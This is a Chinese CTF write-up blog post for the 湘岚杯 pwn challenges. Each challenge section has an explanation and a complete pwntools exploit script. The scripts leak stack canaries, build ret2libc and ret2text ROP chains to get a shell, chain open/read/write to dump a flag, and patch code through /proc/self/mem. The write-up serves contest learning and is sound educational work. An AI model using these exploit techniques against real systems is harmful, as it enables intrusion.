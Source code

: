 ```yaml
---
title: 湘岚杯
date: 2025-01-22 09:47:54
tags:
categories:
- PWN
---
```

CrazyCat-pwn
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121140940.png)
~~做了两题就去春秋杯了，结果春秋杯爆零，还不如把这个做完QAQ。~~
# ezlibc
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121141259.png)
一道简单的`ret2libc`的题目，开启`canary`，得先想办法泄漏`canary`。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121141418.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121141711.png)
虽然有`printf`函数，但不能直接泄漏地址，但`printf`会一直输出直到`\x00`，那么把`canary`前填充满`deadbeef`就能泄漏`canary`。
泄漏`canary`后在构造ROP泄漏地址，获取`libc`基址并重新调用`read`函数进行第三次溢出来获取`shell`。
exp:
```python
from pwn import *
# from LibcSearcher import LibcSearcher
from wstube import websocket

context.log_level = 'debug'
local = True
if local:
    p = process('./ezlibc')
    pwnlib.gdb.attach(p, 'b bug')
else:
    p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471c6-5bcb-772c-b85c-78d6ad4f3ed1')

elf = ELF('./ezlibc')

payload = b'a' * (0x29)
p.send(payload)
p.recvuntil(b'a' * 0x29)
canary = u64(b'\x00' + p.recv(7))
log.success('canary: ' + hex(canary))

rdi = 0x400843
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
bug = 0x4006e7
payload = b'a' * (0x28) + p64(canary) + b'a' * 8 + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(bug)
p.recvuntil(b'closer to the key')
p.send(payload)

p.recvuntil(b'keep trying\n')
puts_addr = u64(p.recv(6).ljust(8, b'\x00'))

'''libc = LibcSearcher('puts', puts_addr)
base = puts_addr - libc.dump('puts')
system = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')'''

ret = 0x40059e
log.success('puts_addr: ' + hex(puts_addr))
base = puts_addr - 0x80970
system = base + 0x4f420
binsh = base + 0x1b3d88

payload = b'a' * (0x28) + p64(canary) + b'a' * 8 + p64(ret) + p64(rdi) + p64(binsh) + p64(system)
p.send(payload)
p.sendafter(b'closer to the key', b'a')

p.interactive()
```
shell:
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121160630.png)
# ret2text
简单的`ret2text`类型题目
找到溢出点，`backdoors`，构造`payload`即可。
exp:
```python
from pwn import *
# from LibcSearcher import LibcSearcher
from wstube import websocket

context.log_level = 'debug'
local = False
if local:
    p = process('./1')
    pwnlib.gdb.attach(p, 'b main')
else:
    p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471ee-7eac-765f-ae48-e2b9fb68618e')

backdoor = 0x40115a
payload = b'a' * (0xa + 8) + p64(backdoor)
p.send(payload)
p.interactive()
```
shell:
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121161101.png)

# sandbox
一道简单的`orw`类型题目。
`seccomp`后可以看到只禁用了`execve`。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121161542.png)
可以构造最普通的`orw`。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121161640.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121161654.png)
可以看见开启了`canary`，有栈溢出和格式化字符串漏洞，那么先用格式化字符串漏洞泄漏`canary`和`libc`的基址，然后构造`ROP`类型的`orw`即可泄漏`./flag`的数据。
exp:
```python
from pwn import *
# from LibcSearcher import LibcSearcher
from wstube import websocket

context.log_level = 'debug'
local = True
if local:
p = process('./attachment')
pwnlib.gdb.attach(p, 'b func')
else:
# p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471ee-7eac-765f-ae48-e2b9fb68618e')
p = remote('xlctf.huhstsec.top', 45537)

elf = ELF('./attachment')
libc = ELF('./libc.so.6')
log.success('__libc_start_main: ' + hex(libc.symbols['__libc_start_main']))
log.success('read: ' + hex(libc.symbols['read']))
log.success('open: ' + hex(libc.symbols['open']))
log.success('write: ' + hex(libc.symbols['write']))
# libc = ELF('./libc6_2.35-0ubuntu3_amd64.so')

# payload1 = '%13$p-%19$p'
payload1 = '%13$p-%39$p'

p.recvuntil(b'Do you know orw?')
p.sendline(payload1)
p.recvuntil(b'\n')
p.recvuntil(b'0x')
canary = int(p.recvuntil('-', drop=True), 16)
p.recvuntil(b'0x')
# base = int(p.recvuntil(b'\n'), 16) - libc.symbols['__libc_start_main'] - 120
main_addr = int(p.recv(12), 16) - 128
base = main_addr - libc.symbols['__libc_start_main']
log.success('main:' + hex(main_addr))
log.success('canary: ' + hex(canary))
log.success('base: ' + hex(base))

bss = elf.bss() + 0x100
rdi = 0x4014c3
rsi_r15 = 0x4014c1
ret = 0x40101a
rdx_rbx = base + 0x90529

read_addr = base + libc.symbols['read']
open_addr = base + libc.symbols['open']
write_addr = base + libc.symbols['write']

payload2 = b'a' * (0x38) + p64(canary)

payload2 += p64(ret) + p64(rsi_r15) + p64(bss) + p64(0)
payload2 += p64(read_addr)

payload2 += p64(rdi) + p64(bss)
payload2 += p64(rsi_r15) + p64(0) + p64(0)
payload2 += p64(rdx_rbx) + p64(0) + p64(0)
payload2 += p64(open_addr)

payload2 += p64(rdi) + p64(3)
payload2 += p64(rsi_r15) + p64(bss) + p64(0)
payload2 += p64(rdx_rbx) + p64(0x100) + p64(0)
payload2 += p64(read_addr)

payload2 += p64(rdi) + p64(1)
payload2 += p64(rsi_r15) + p64(bss) + p64(0)
payload2 += p64(rdx_rbx) + p64(0x100) + p64(1)
payload2 += p64(write_addr)

p.recvuntil(b'can you did it?')
p.send(payload2)
pause()
p.send(b'./flag\x00')

p.interactive()
```
flag:
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121163812.png)

# 宇宙射线
程序里给了`/proc/self/mem`，可以直接修改代码。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121165930.png)
首先按照0x的格式输入要修改的地址。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121170028.png)
然后在此处输入一个字节，便可以修改为输入的字节。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121170126.png)
例如这里我们选择的是0x40151f，并将此处修改为0x00。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121170219.png)
可以看到修改成功。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121170606.png)
在这里可以看到用syscall调用了系统调用号为3c的程序，将3c修改就可以调用其他程序。将其修改为0就可以调用read函数。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250121170908.png)
可以看到成功调用了read函数，且拥有栈溢出漏洞。
ROPgadget查询后发现只有pop rbp可用，但程序中有一个key函数可以将rbp的内容放入rdi中。
之后便是简单的ret2libc。
exp：
```python
from pwn import *
# from LibcSearcher import LibcSearcher
from wstube import websocket

context.log_level = 'debug'
local = False
if local:
p = process('./pwn')
pwnlib.gdb.attach(p, 'b *.x40155f')
else:
# p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471ee-7eac-765f-ae48-e2b9fb68618e')
p = remote('101.43.67.25', 8090)

elf = ELF('./pwn')
libc = ELF('./libc.so.6')

p.sendlineafter(b'cosmic rays:\n', b'0x401562')
p.sendlineafter(b'Enter the data sent:\n', b'0x0')

payload = b'a' * (0x12)
  
ret = 0x40101a
rbp = 0x40127d
key = 0x40129e
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
read_addr = 0x401553
main = 0x401309

payload += p64(ret) + p64(rbp) + p64(puts_got) + p64(key) + p64(ret) + p64(puts_plt)
payload += p64(main)
  
p.send(payload)
puts_addr = u64(p.recv(6).ljust(8, b'\x00'))
print('puts_addr:', hex(puts_addr))
  
base = puts_addr - libc.sym['puts']
system_addr = base + libc.sym['system']
bin_sh = base + next(libc.search(b'/bin/sh'))

p.sendlineafter(b'cosmic rays:\n', b'0x401562')
p.sendlineafter(b'Enter the data sent:\n', b'0x0')

payload = b'a' * (0x12 + 0x8)
payload += p64(ret) + p64(rbp) + p64(bin_sh) + p64(key) + p64(ret) + p64(system_addr)

p.send(payload)

p.interactive()
```
shell:
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250122094222.png)
